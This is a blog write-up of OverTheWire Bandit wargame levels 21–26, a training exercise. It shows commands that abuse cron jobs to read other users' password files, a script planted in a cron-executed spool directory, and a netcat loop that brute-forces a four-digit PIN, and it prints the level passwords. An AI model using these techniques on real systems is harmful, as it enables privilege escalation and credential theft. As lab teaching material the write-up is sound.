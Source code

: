 ```yaml
---
layout: post
title: "OverTheWire: Bandit 21-26"
date: 2016-10-21 12:00:00
share: true
comments: true
tags: [OverTheWire - Bandit]
---
```


## Bandit 21

Very easy level, you'll need to read about cron, but for now first paragraph of this [link ](https://help.ubuntu.com/community/CronHowto)will do:

```
 "Cron is a system daemon used to execute desired tasks (in the background) at
 designated times.
 
 A crontab file is a simple text file containing a list of commands meant to be
 run at specified times. It is edited using the crontab command. The commands
 in the crontab file (and their run times) are checked by the cron daemon,
 which executes them in the system background."
```

First, let's see which cron job is being executed for bandit 22:


```console
bandit21@melinda:~$ cd /etc/cron.d
bandit21@melinda:/etc/cron.d$ ls
behemoth4_cleanup cronjob_bandit23    leviathan5_cleanup  natas-session-toucher natas25_cleanup~ php5    semtex0-ppc vortex0
cron-apt      cronjob_bandit24    manpage3_resetpw_job natas-stats      natas26_cleanup  semtex0-32 semtex5   vortex20
cronjob_bandit22  cronjob_bandit24_root melinda-stats     natas25_cleanup    natas27_cleanup  semtex0-64 sysstat

bandit21@melinda:/etc/cron.d$ cat cronjob_bandit2
cat: cronjob_bandit2: No such file or directory
bandit21@melinda:/etc/cron.d$ cat cronjob_bandit22
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

What does `/usr/bin/cronjob_bandit22.sh` do?

```console
bandit21@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

First line after the sha-bang gives the temp file the following permissions: user can write, anyone can read. So we're able to read the content of that file.
Second line copies the content of /etc/bandit_pass/bandit22 (containing our password) to the temporary file. Check it's content and you'll find the password to the next level!

Password: `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`

___________________________________________

## Bandit 22

Same steps as earlier, let's see what the script /usr/bin/cronjob_bandit23.sh
does:

```console
bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

So we need to get the MD5 encoding of $target (which is "I am user bandit23"),
then read the content of `/tmp/MD5output`:

```console
bandit22@melinda:/etc/cron.d$ md5sum <<< $(echo I am user bandit23)
8ca319486bfbbc3663ea0fbe81326349 -
bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@melinda:/etc/cron.d$
```

___________________________________________

## Bandit 23

More of the same, let's see what the script does:

```console
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
timeout -s 9 60 "./$i"
rm -f "./$i"
fi
done
```

So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make it write the content of `/etc/bandit_pass/bandit24` somewhere, maybe a temporary file? Make sure you give the script and the folder the correct permissions.

```console
bandit23@melinda:/etc/cron.d$ mkdir /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ chmod 777 /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ cd /tmp/somefunnyname
bandit23@melinda:/tmp/somefunnyname$ cat > torun.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/somefunnyname/password
^C
bandit23@melinda:/tmp/somefunnyname$ chmod 777 torun.sh
bandit23@melinda:/tmp/somefunnyname$ cp torun.sh /var/spool/bandit24/
bandit23@melinda:/tmp/somefunnyname$ ls -al /var/spool/bandit24/
total 153
drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
drwxr-xr-x 6 root   root    4096 May 3 2015 ..
bandit23@melinda:/tmp/somefunnyname$ ls
password torun.sh
bandit23@melinda:/tmp/somefunnyname$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Script got deleted, which means cron executed it and we got our password!

___________________________________________

## Bandit 24

Our first bash for loop! You may want to read more about it [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).

First let's see how the daemon behaves. You'll realize it allows multiple input, we can create a list with format "&lt;password&gt; &lt;pin&gt;" for 0000-9999 and feed it to NC. Let's create a temp directory and navigate to it:

```console
bandit24@melinda:/tmp/abatchy24$ `for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >>list.txt; done  `
bandit24@melinda:/tmp/abatchy24$ `head list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
bandit24@melinda:/tmp/abatchy24$ `tail list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
bandit24@melinda:/tmp/abatchy24$ `nc -nv 127.0.0.1 30002 < list.txt | grep -v Wrong`
Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Exiting.
```

Done.

___________________________________________

## Bandit 25

Just another SSH key, but you may want to look into /etc/passwd file...

___________________________________________

## Bandit 26

Research escaping restrcited shell ;)